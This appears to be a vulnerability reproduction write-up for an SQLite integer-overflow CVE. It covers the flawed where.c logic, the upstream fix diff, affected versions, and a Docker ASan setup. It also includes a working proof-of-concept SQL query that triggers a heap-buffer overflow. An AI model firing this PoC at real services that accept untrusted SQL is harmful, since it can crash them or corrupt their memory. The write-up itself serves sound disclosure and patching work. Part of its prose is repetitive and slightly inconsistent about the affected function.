


# CVE-2025-7458 CWE-190 SQLite integer overflow

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **CWE-190（Integer Overflow or Wraparound）**

## Vulnerability Mechanism
There is an integer overflow issue in SQLite's `sqlite3KeyInfoFromExprList` function. Attackers construct a `ORDER BY` clause containing a large number of expressions, triggering an overflow when executing SQL queries, which can lead to memory corruption, process crashes, or sensitive data leakage.

## Vulnerability Location
The vulnerability lies in the `src/where.c` ORDER BY/DISTINCT status summary code after generating query plans. `pFrom->isOrdered` comes from the path search's estimate of the "number of sort terms satisfied," and `pWInfo->pSelect->pOrderBy->nExpr` is the actual number of ORDER BY expressions for the current SELECT. In `WHERE_DISTINCTBY` special paths, affected code assigns the former to a smaller range of `pWInfo->nOBSat` without constraints.

```c
pWInfo->nOBSat = pFrom->isOrdered;
if (pWInfo->wctrlFlags & WHERE_DISTINCTBY) {
  if (pFrom->isOrdered == pWInfo->pOrderBy->nExpr) {
    pWInfo->eDistinct = WHERE_DISTINCT_ORDERED;
  }
  /* Missing upper bound against pSelect->pOrderBy->nExpr. */
}
```

Subsequent code treats `nOBSat` as a valid ORDER BY number and uses it to calculate remaining expressions, allocation/initialization, `KeyInfo`, and access the expression list. Constructing DISTINCT queries where the SELECT list and ORDER BY list quantities do not match can cause the count to exceed the true `ExprList` length, triggering integer/boundary errors and causing process crashes.

```c
/* Required invariant for downstream key construction: */
0 <= pWInfo->nOBSat
   && pWInfo->nOBSat <= pWInfo->pSelect->pOrderBy->nExpr;
```

Check-in `12ad822d9b` adds explicit clamps to the `WHERE_DISTINCTBY` branch to ensure the `nOBSat` does not exceed the true number of ORDER BY expressions, restoring the above invariants from the source.

## Remediation
Upgrade to SQLite 3.41.2 or later. The fix is upstream check-in `12ad822d9b827777`. Applications that deliberately accept untrusted SQL should also apply SQLite's defensive configuration guidance and resource limits.

The new code ensures that pWInfo->nOBSat (the number of sorted expressions in the WHERE clause) does not exceed pWInfo->pSelect->pOrderBy->nExpr (the actual number of ORDER BY expressions in the SELECT statement). If `pWInfo->nOBSat` is greater than `pWInfo->pSelect->pOrderBy->nExpr`, `pWInfo->nOBSat` is limited to the value of `pWInfo->pSelect->pOrderBy->nExpr`. If `pWInfo->nOBSat` is greater than `pWInfo->pSelect->pOrderBy->nExpr`, `pWInfo->nOBSat` is limited to a value of `pWInfo->pSelect->pOrderBy->nExpr`.

```diff
Index: src/where.c
==================================================================
--- src/where.c
+++ src/where.c
@@ -5297,10 +5297,14 @@
     pWInfo->nOBSat = pFrom->isOrdered;
     if( pWInfo->wctrlFlags & WHERE_DISTINCTBY ){
       if( pFrom->isOrdered==pWInfo->pOrderBy->nExpr ){
         pWInfo->eDistinct = WHERE_DISTINCT_ORDERED;
       }
+      if( pWInfo->pSelect->pOrderBy
+       && pWInfo->nOBSat > pWInfo->pSelect->pOrderBy->nExpr ){
+        pWInfo->nOBSat = pWInfo->pSelect->pOrderBy->nExpr;
+      }
     }else{
       pWInfo->revMask = pFrom->revLoop;
       if( pWInfo->nOBSat<=0 ){
         pWInfo->nOBSat = 0;
         if( nLoop>0 ){
```

## Affected Versions
SQLite 3.39.2 through 3.41.1; fixed in 3.41.2.

## Environment Setup
Start the Docker environment with SQLite version 3.40.0, which enables ASAN memory detection at compile time

```txt
CNA:Google Inc.    CVSS-B 6.9 MEDIUM    Vector:CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:L/SC:N/SI:N/SA:N
```

```txt
cpe:2.3:a:sqlite:sqlite:3.40.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Go to the container command line and run the PoC file. You can see that ASan detected a heap-buffer overflow.

```bash
docker exec -it sqlite-3.40.0 sqlite3 test_db ".read CVE-2025-7458-PoC.sql"
```



## PoC Analysis

```sql
SELECT  DISTINCT
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1
  ORDER  BY
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x';
```

## References
[NVD - CVE-2025-7458](https://nvd.nist.gov/vuln/detail/CVE-2025-7458#range-16921720)

[SQLite: Check-in [12ad822d9b\]](https://sqlite.org/src/info/12ad822d9b827777)
